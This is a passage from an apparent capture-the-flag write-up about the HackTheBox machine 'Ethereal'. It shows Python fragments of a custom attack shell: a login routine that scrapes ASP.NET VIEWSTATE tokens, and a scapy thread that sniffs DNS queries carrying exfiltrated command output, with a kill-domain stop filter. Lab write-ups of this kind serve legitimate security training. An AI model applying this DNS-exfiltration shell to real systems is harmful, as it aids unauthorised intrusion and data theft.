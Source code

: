 ```
 76                              timeout=120)
 77             if resp.status_code == 500 and time.time - start < 30:
 78                 print("[-] Unable to connect to Ethereal\n[*] Running login")
 79                 self.do_login()
 80                 print("[*] Try running the command again.")
 81         except requests.exceptions.Timeout:
 82             pass

```

`do_login` looks like:

```

 54     def do_login(self, args=''):
 55         print("[*] Logging in and fetching state information.")
 56         resp = requests.get('http://ethereal.htb:8080/', auth=self.auth, proxies=self.proxy)
 57         soup = BeautifulSoup(resp.text, 'html.parser')
 58         self.view_state = soup.find("input", id="__VIEWSTATE").get('value')
 59         self.view_state_gen = soup.find("input", id="__VIEWSTATEGENERATOR").get('value')
 60         self.event_val = soup.find("input", id="__EVENTVALIDATION").get('value')
 61         print("[+] State information received.")

```

### Clean Exit

Right now, when I want to exit the shell, I have to ctrl-c twice, to kill the terminal and the DNS thread. And it dies with exceptions all over the screen.

There’s not a really clean way that I know of to kill a thread like this from somewhere else in the code. But I came up with a kludge.

The command running in the DNS thread is:

```

sniff(iface=self.interface, filter=f"src host {self.target_ip} and udp port 53",prn=self.parse_packet)

```

`sniff` actually has a parameter you can pass it, `stop_filter`. It is a function that is passed each packet, and, if it returns True, will stop `sniff`. So I’ll add one that if I get a query for a pre-defined domain, I’ll exit:

```

 12 kill_domain = "0xdf.0xdf."
...
 23     def run(self):
 24         sniff(iface=self.interface, filter=f"src host {self.target_ip} and udp port 53",
 25                 prn=self.parse_packet, stop_filter=lambda p: p.haslayer(DNS) and
 26                 p.getlayer(DNS).qd.qname.decode('utf-8') == kill_domain)

```
